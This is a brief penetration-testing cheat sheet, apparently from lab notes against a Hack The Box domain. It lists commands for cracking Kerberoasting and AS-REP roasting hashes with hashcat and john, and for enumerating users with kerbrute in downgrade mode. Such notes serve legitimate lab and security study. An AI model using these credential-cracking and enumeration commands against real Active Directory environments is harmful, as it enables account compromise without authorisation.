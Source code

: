 
 note downgrade your hash and try to crack it

**kerberoasting**

```bash
hashcat -m 13100 -a 0 GetUserSPNs.out ~/rockyou.txt
```

```bash
john --wordlist=/root/rockyou.txt hash
```

**ASREPRoast**

```bash
hashcat -m 18200 -a 0 service-users-hash.txt ~/rockyou.txt
```
**downgrade hash**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt --downgrade
```
